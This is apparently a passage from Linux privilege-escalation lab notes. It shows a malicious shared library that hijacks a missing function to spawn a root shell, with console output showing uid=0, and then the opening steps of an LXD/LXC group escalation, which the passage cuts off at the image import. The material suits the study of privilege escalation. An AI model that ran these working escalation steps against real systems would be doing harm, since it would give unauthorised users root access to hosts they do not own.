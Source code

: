 Executing the binary throws an error stating that it failed to find the function named `dbquery`. We can compile a shared object which includes this function:
```c
#include<stdio.h>
#include<stdlib.h>

void dbquery() {
    printf("Malicious library loaded\n");
    setuid(0);
    system("/bin/sh -p");
} 
```

Now compile and execute:
```console
zero@pio$ cc src.c -fPIC -shared -o /development/libshared.so 
zero@pio$ ./payroll 

# id
uid=0(root) gid=1000(mrb3n) groups=1000(mrb3n)
```

---

# Privileged Groups 

## LXC / LXD 

**LXD** is similar to Docker and is Ubuntu's container manager. Membership of this group can be used to escalate privileges by creating an LXD container, making it privileged, and then accessing the host file system at `/mnt/root`{: .filepath}. Let's confirm group membership and use these rights to escalate to root:
```console
zero@pio$ id

uid=1009(devops) gid=1009(devops) groups=1009(devops),110(lxd)
```

Unzip the Alpine image:
```console
zero@pio$ unzip alpine.zip 

Archive:  alpine.zip
extracting: 64-bit Alpine/alpine.tar.gz  
inflating: 64-bit Alpine/alpine.tar.gz.root  
cd 64-bit\ Alpine/
```

Start the **LXD**:
```console
zero@pio$ lxd init
```

Import the local image:
```console
zero@pio$ lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine
```
